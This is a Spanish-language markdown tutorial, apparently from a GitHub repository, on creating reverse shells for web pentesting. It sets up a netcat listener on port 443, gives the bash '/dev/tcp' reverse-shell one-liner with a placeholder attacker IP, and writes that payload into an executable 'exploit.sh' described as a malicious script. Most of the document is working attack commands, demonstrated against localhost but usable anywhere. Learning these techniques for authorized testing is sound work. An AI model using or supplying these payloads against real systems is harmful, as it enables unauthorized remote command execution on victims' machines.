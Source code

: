 ```yaml
---
title: ReverseShells & Malware
published: true
---
```


* <p>Hola hoy estaremos hablando de pentesting web, hablaremos sobre:</p>
  *Creación de `ReverseShell.`*
 <br>
  *Como están compuesto el malware.*

<br>

* <p>Primero, qué es una <font color="red">ReverseShell</font>. Lo explicaré en un lenguaje brusco: una ReverseShell es aquella que te permite ejecutar comandos en una PC que no es tu dominio, es decir, una IP que es la de la víctima conectada a un host, donde el host es tu equipo y te permite ejecución remota de comandos.</p>
<a href="https://www.revshells.com/" target="_blanck">Creación de reverse-shell.</a>

<br>

<center> # ReverseShell</center>
<br>
* <p> los programas a utilizar para la ReverseShell es bash, netcat, si usas Linux es probable que ya los tengas instalados, 
en el caso contrario ejecuta:</p>


Para <font color="yellow"> Linux </font>

```bash
sudo apt-get install netcat bash -y
```

Para <font color="yellow">arch-Linux</font>

```bash
pacman -Sy netcat bash
```

<br>

* <p>Importante</p>


* <p>Para este caso no utilizaremos sh sino que usaremos bash. Esto cambia un poco el contexto de la forma en la que se ejecuta el código, pero aun así se pueden lograr de mil formas aunque tengas una sh.</p>

<img src="screenshots/screen_bash.jpg">

Como no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script.

<br>

---
<br>
* <p> Empezamos poniéndonos en escucha por el puerto 443 de netcat : </p>

```bash
nc -nvlp 443
```

* <p> Miramos que ip tenemos con el comando ifconfig :</p>
```bash
ifconfig
```
<img src="screenshots/ifconfig.jpg">

* <p> Como pueden ver tengo la ip 127.0.0.1</p>
<br>

* <p> Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablar la conexión desde otra terminal porque la primera está siendo ocupada por netcat. Entonces recuerden ejecutar el comando <b>bash</b> antes de entablar la conexión.</p>
<br>

* <p> Para entablar la conexión hacemos el siguiente comando :</p>

```bash
bash
bash -i >& /dev/tcp/TU-IP/443/ 0>&1
```
<br>
<img src='screenshots/reverse.jpg'>

* <p> Como pueden ver se me abrió un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.</p>

-------
<br>

* <p> Ahora pasaremos a desarrollar un <b>script malicioso en bash</b>, para ello aremos los mismo solo que esta vez el comando :
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:</p>

<br>

```bash
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

* <p> Lo que hace este comando es crear un script en bash para poder entablarme una conexión reversa. Pueden hacer <b>ls</b> y verán un archivo llamado <b>exploit.sh</b> y de paso otorgarle permiso de ejecución.</p>

* <p>No se ofusque si no entiende la anterior  linea de código simplemente lo que hace es hacer un archivo con `touch` darle permisos</p>
de ejecución con `chmod +x exploit.sh` y agregarle el código con `>>` :

```bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```

<br>
* <p> Pueden hacerlo manualmente con los siguientes comandos :</p>

```bash
touch exploit.sh
```
```bash
chmod +x exploit.sh
```
<br>

* <p>Abren el archivo creado y coloca la siguiente linea : "bash -i >& /dev/tcp/SU-IP/443 0>&1"</p>
<br>
* <p> Una vez ya hecho el archivo, pónganse en escucha por el puerto <b>443</b> con netcat. Recuerden que con el comando <q><b>nc -nlvp 443</b></q> nos poníamos en escucha por el puerto <b>443</b>. Este puerto puede ser modificado siempre y cuando el puerto no esté en uso, y claramente en el exploit o código pongan su respectivo puerto.</p>

ﾠ
* <p> Nos ponemos en escucha con netcat</p>
```#!/bin/bash
nc -nlvp 443
```
<br>
* <p> Y ejecutamos el archivo creado</p>
```#!/bin/bash
./exploit.sh
```

<img src="screenshots/final.jpg">

* <p><b> Ahora como pude ver tengo una reverse Shell</b></p>
<br>

* <p> Lo más cómodo de hacerlo por script es que se puede ejecutar el archivo teniendo la zsh y ahorrándose el comando `bash` y ejecutar el archivo. Esto se debe a la extensión <b>"sh"</b> que tiene el archivo.</p>

<br>
* <p>Vale ya sabes al menos cosas básicas.</p>

